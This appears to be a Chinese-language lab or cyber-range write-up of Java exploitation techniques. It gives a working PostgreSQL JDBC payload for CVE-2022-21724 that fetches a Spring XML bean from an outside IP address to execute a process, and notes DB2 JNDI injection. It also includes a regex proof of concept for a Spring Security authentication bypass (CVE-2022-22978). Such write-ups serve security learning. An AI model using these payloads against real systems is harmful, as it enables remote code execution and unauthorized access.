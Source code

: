 ![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230720152108.png)

### JDBC
> 靶场中只有这两种，jdbc可控链接反序列化RCE情形可以学习这个仓库
> `https://github.com/su18/JDBC-Attack`

#### postgres CVE-2022-21724
> 可控jdbc情形下，postgres的RCE

服务器上放的`xml`文件内容

```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">

   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>open</value>
            <value>-a</value>
            <value>calculator</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

Payload:
`jdbc:postgresql://127.0.0.1:5432/test/?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://47.115.225.142:7777/1.xml`

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230718153908.png)

#### DB2
最新版官方代码层也没有修复这个问题，在可控`JDBC`连接的情况下，可以通过`clientRerouteServerListJNDIName`，打`JNDI`注入，完成RCE。
![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230718203913.png)

### Spring-security CVE-2022-22978 
Spring-security的认证权限绕过。

在正则表达式中元字符`.`是匹配除换行符（`\n`、`\r`）之外的任何单个字符。如果要匹配包括 \n 在内的任何字符，需使用像(.|\n)的模式。

在这样的使用场景中
```java
    public static void main(String[] args) throws Exception{
        Pattern vuln_pattern = Pattern.compile("/black_path.*");
        Pattern sec_pattern = Pattern.compile("/black_path.*", Pattern.DOTALL);

        String poc = URLDecoder.decode("/black_path%0a/xx", StandardCharsets.UTF_8.toString());
        System.out.println("Poc: " + poc);
        System.out.println("Not dotall: " + vuln_pattern.matcher(poc).matches());    // false，非dotall无法匹配\r\n
        System.out.println("Dotall: " + sec_pattern.matcher(poc).matches());         // true，dotall可以匹配\r\n
    }
```
